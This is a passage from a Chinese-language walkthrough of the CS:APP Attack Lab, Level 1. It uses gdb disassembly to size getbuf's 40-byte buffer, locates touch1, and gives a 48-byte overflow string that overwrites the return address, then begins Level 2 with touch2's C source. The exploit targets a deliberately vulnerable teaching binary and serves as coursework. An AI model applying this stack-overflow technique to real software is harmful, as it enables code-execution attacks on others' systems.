 (1).查看缓冲区大小

利用`gdb`调试`ctarget`，反汇编`getbuf`，根据第一行`sub $0x28, %rsp`可知，在栈上分配的缓冲区大小为40字节。

```assembly
$ gdb ctarget
(gdb) disas getbuf

Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq   
End of assembler dump.
```

(2).找`touch1`首地址

根据第一行可知，`touch1`的首地址为`0x00000000004017c0`。

```assembly
(gdb) disas touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   0x00000000004017c4 <+4>:     movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:    mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:    callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:    mov    $0x1,%edi
   0x00000000004017dd <+29>:    callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:    mov    $0x0,%edi
   0x00000000004017e7 <+39>:    callq  0x400e40 <exit@plt>
End of assembler dump.
```

(3).构造exploit code

首先需要用40字节数据填充缓冲区，然后用touch1首地址填写剩下8字节，构造的exploit code如下。

```
30 31 32 33 34 35 36 37 38 39
30 31 32 33 34 35 36 37 38 39
30 31 32 33 34 35 36 37 38 39
30 31 32 33 34 35 36 37 38 39
c0 17 40 00 00 00 00 00
```

注意字节顺序，栈上的字节顺序为右低左高，下低上高。

![Yd3X9S.png](https://s1.ax1x.com/2020/05/13/Yd3X9S.png)



### 3.2. Level 2

```c
void touch2(unsigned val)
{
	vlevel = 2; /* Part of validation protocol */
	if (val == cookie) 
	{
		printf("Touch2!: You called touch2(0x%.8x)\n", val);
		validate(2);
	}
    else 
    {
    	printf("Misfire: You called touch2(0x%.8x)\n", val);
    	fail(2);
    } 
```